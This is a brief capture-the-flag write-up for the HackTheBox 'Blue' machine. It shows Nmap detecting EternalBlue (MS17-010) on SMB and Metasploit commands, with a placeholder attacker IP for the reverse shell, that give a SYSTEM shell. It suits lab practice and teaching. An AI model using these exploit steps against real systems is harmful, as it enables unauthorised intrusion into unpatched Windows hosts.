

# Blue — HackTheBox (write-up)

**Difficulty:** Easy / Beginner
**Box:** Blue (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-05-15

---

## TL;DR

### Nmap revealed EternalBlue (MS17-010). Exploited with Metasploit for immediate SYSTEM shell.
---
## Target info

- Services discovered: SMB (EternalBlue vulnerable)
---
## Enumeration

Nmap showed EternalBlue vulnerability, similar to the Internal (PG) box.

---
## Exploitation

```bash
msfconsole
```



```
use 0
set LHOST <attacker-ip>
set RHOSTS <target-ip>
set LPORT <port>
run
```

Immediate SYSTEM shell.

---
## Lessons & takeaways

- EternalBlue (MS17-010) is a one-shot exploit -- always check for it on older Windows SMB services
- Metasploit makes this trivial, but understanding the underlying vulnerability matters for real engagements
---
